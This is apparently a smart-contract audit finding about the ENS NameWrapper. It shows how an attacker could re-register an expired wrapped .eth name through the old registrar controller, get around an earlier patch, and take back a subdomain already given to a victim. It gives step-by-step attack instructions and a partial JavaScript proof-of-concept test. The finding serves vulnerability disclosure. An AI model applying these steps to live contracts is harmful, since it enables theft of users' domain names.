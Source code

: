 The current .eth registrar controller can directly register ETH2LD and send to the user, while the new one will automatically wrap the registered ETH2LD.

If the two .eth registrar controllers are both active, an ETH2LD node can be **implicitly** unwrapped while the NameWrapper owner remains to be the hacker.

**Note that this hack can easily bypass the patch of \[H-01].**

Considering the following situtation.

*   the hacker registered and wrapped an ETH2LD node `sub1.eth`, with `PARENT_CANNOT_CONTROL | CANNOT_UNWRAP` burnt. The ETH2LD will be expired shortly and can be re-registred within the aformentioned deprecation period.

*   after `sub1.eth` is expired, the hacker uses the current .eth registrar controller to register `sub1.eth` to himself.
    *   *at this step, the `sub1.eth` is implicitly unwrapped*.
    *   the hacker owns the registrar ERC721 as well as the one of ENS registry for `sub1.eth`.
    *   however, `sub1.eth` in NameWrapper remains valid.

*   he sets `EnsRegistry.owner` of `sub1.eth` as NameWrapper.
    *   note that **this is to bypass the proposed patch for \[H-01].**

*   he wraps `sub2.sub1.eth` with `PARENT_CANNOT_CONTROL | CANNOT_UNWRAP` and trafers it to a victim user.

*   he uses `BaseRegistrar::reclaim` to become the `EnsRegistry.owner` of `sub1.eth`
    *   at this step, the hack can be launched as **\[H-01]** does.

For example,

*   he can first invokes `EnsRegistry::setSubnodeOwner` to become the owner of `sub2.sub1.eth`

*   he then invokes `NameWrapper::wrap` to wrap `sub2.sub1.eth` to re-claim as the owner.

**Note that it does not mean the impact of the above hack is limited in the deprecation period**.

What the hacker needs to do is to re-registers `sub1.eth` via the old .eth registrar controller (in the deprecation period). He can then launch the attack any time he wants.

### Proof of Concept

```js
    it('Attack happens within the deprecation period where both .eth registrar controllers are active', async () => {
      await NameWrapper.registerAndWrapETH2LD(
        label1,
        hacker,
        1 * DAY,
        EMPTY_ADDRESS,
        CANNOT_UNWRAP
      )

      // wait the ETH2LD expired and re-register to the hacker himself
      await evm.advanceTime(GRACE_PERIOD + 1 * DAY + 1)
      await evm.mine()

      // XXX: note that at this step, the hackler should use the current .eth
      // registrar to directly register `sub1.eth` to himself, without wrapping
      // the name.
      await BaseRegistrar.register(labelHash1, hacker, 10 * DAY)
      expect(await EnsRegistry.owner(wrappedTokenId1)).to.equal(hacker)
      expect(await BaseRegistrar.ownerOf(labelHash1)).to.equal(hacker)

      // set `EnsRegistry.owner` as NameWrapper. Note that this step is used to
      // bypass the newly-introduced checks for [H-01]
      //
      // XXX: corrently, `sub1.eth` becomes a normal node
      await EnsRegistryH.setOwner(wrappedTokenId1, NameWrapper.address)

```